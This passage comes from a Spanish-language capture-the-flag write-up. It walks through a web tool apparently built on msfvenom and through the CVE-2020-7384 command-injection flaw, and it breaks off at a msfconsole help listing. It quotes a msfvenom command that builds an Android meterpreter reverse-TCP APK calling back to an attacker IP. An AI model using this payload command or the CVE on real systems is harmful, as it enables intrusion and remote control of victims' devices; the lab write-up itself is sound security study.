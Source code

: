 ```sh

# Y ya localizado le he hecho un cat:
> cat /usr/share/doc/metasploit-framework/modules/payload/android/meterpreter/reverse_tcp.md

# Y he encontrado lo siguiente:
... sNIP ..
./msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
.. SNIP ..
```

Encontré bastantes referencias de como crear un payload con esa extensión.

Quinta pregunta; **What user is the website running as?**

Aquí entiendo que ya hay que explotar la web, para saber posteriormente el usuario. Parece que nos dejan claro que hay que usar el CVE-2020-7384.

**Hay que entender** que hace ese CVE, que hace el exploit. Por aquí la explicación en perfecto inglés:

```plaintext
Metasploit Framework's `msfvenom` is vulnerable to a command injection
vulnerability when the user provides a crafted APK file to use as an Android
payload template. A "template" file in this context is an existing APK file,
within which an Android payload will be embedded.

The vulnerability affects Metasploit Framework <= 6.0.11 and Metasploit Pro <=
4.18.0
```
Parece que la web nos da la utilidad de crear payload con msfvenom. Desde el apartado "Payload" de la Web es como si la víctima hiciera algo así:

```sh
# Lo que haría el usuario web objetivo desde la web:
msfvenom -p android/meterpreter/reverse_tcp -x msf.apk
```

Nos faltaría crear un .apk para pasarle.

## Creación del archivo .apk

Abro **msfconsole**:

```sh
> msfconsole

[msf](Jobs:0 Agents:0) >> help search
Usage: search [<options>] [<keywords>:<value>]

Prepending a value with '-' will exclude any matching results.
If no options or keywords are provided, cached results are displayed.


OPTIONS:

    -h, --help                      Help banner
    -I, --ignore                    Ignore the command if the only match has the same name as the search
    -o, --output <filename>         Send output to a file in csv format
    -r, --sort-descending <column>  Reverse the order of search results to descending order
    -S, --filter <filter>           Regex pattern used to filter search results
    -s, --sort-ascending <column>   Sort search results by the specified column in ascending order
    -u, --use                       Use module if there is one result

Keywords:
  adapter          :  Modules with a matching adater reference name
  aka              :  Modules with a matching AKA (also-known-as) name
```